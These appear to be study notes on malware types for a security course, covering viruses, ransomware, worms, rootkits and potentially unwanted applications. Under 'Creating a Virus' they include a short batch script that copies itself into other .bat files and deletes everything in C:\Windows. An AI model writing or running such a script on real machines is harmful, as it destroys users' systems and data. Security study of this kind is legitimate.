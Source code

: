 
##### Creating a Virus
create a batch file that looks like
```bat
@ echo off
for %%f in (*.bat) do
copy %%f + Game.bat
del c:\Windows\*.*
```
When run, it **copies itself** to all the `.bat` files in the current directory and deletes all the files in the windows directory

#### Ransomware
Restricts access to the computer system files and folders
Demands an online ransom payment to the creators to remove the restrictions

##### Process
1. Attacker attaches Ransomware in email
2. Malware executes and gets installed
3. Victim pays ransomware to get access
4. Attacker unlocks and provide access
5. Victim gets access to files

#### Computer Worms
Malicious programs that independently replicate, execute, and spread across the network connections
Consume available computing resources without human interaction
Attackers use worm payloads to install backdoors in infected computers

![](Pasted%20image%2020240905111836.png)

#### Worms vs Viruses
A Worm replicates on it's own
A worm spreads through the infected network
A Virus requires activation, usually by a human
Viruses replicate by creating their own files on an infected system, attaching themselves to a legitimate program, other files or email attachments

#### Rootkits
- Rootkits are programs that hide their presence as well as attacker's malicious activities, granting them full access to the server or host at the time, and in the future
- Rootkits replace certain operating system calls and utilities with their own modified versions of those routines that, in turn, undermine the security of the target system causing malicious functions to be executed
- Compromises backdoor programs, DDoS programs, packet sniffers, log-wiping utilities, IRC bots, etc.

### Potentially Unwanted Applications (PUA)
Also known as grayware or junkware, they may pose sever risks to the security and privacy of data stored in the system where they are installed
Installed when downloading and installing freeware using third-party installer or when accepting a misleading license agreement
Covertly monitor and alter the data or settings in the system, similarly to other malware
